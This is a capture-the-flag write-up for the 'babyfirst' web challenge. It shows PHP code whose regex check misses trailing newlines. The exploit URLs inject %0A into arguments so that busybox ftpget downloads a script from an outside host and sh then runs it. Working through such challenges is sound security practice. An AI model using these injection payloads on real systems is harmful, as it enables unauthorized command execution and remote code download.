 # babyfirst (web 100)

## Description

```
baby, do it first.
http://52.68.245.164
```

## The bugs

When you browse to the website, you see the PHP code that is running on index page.

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }
    exec("/bin/orange " . implode(" ", $args));
?>
```

The program creates a sandbox directory using the `$_SERVER['REMOTE_ADDR']` (aka your IP address) if it doesn't exist already, and changes the directory into it. Then, it parses the GET parameter called `args`. The program iterates through `$args` array and verifies that they only contain letters, numbers and underscores.

However, it is possible to match with a string that ends with a new line (%0A). This allows us to inject custom shell commands when it does exec with our `$args`.


## Exploit

First, we run a shell command to download a shell script that we can execute later.

```
http://52.68.245.164/?args[]=aa%0a&args[]=busybox&args[]=ftpget&args[]=<IP_IN_DECIMAL>&args[]=script
``` 

Then, we run the downloaded script.

```
http://52.68.245.164/?args[]=aa%0a&args[]=sh&args[]=script
```

The shell script redirects output to a file which we can download by going to `/sandbox/<YOUR_IP>`. To get the flag, the script runs `/read_flag`.

## Flag

Flag: `hitcon{theworldisnotbeautiful,becauzeofyou}`
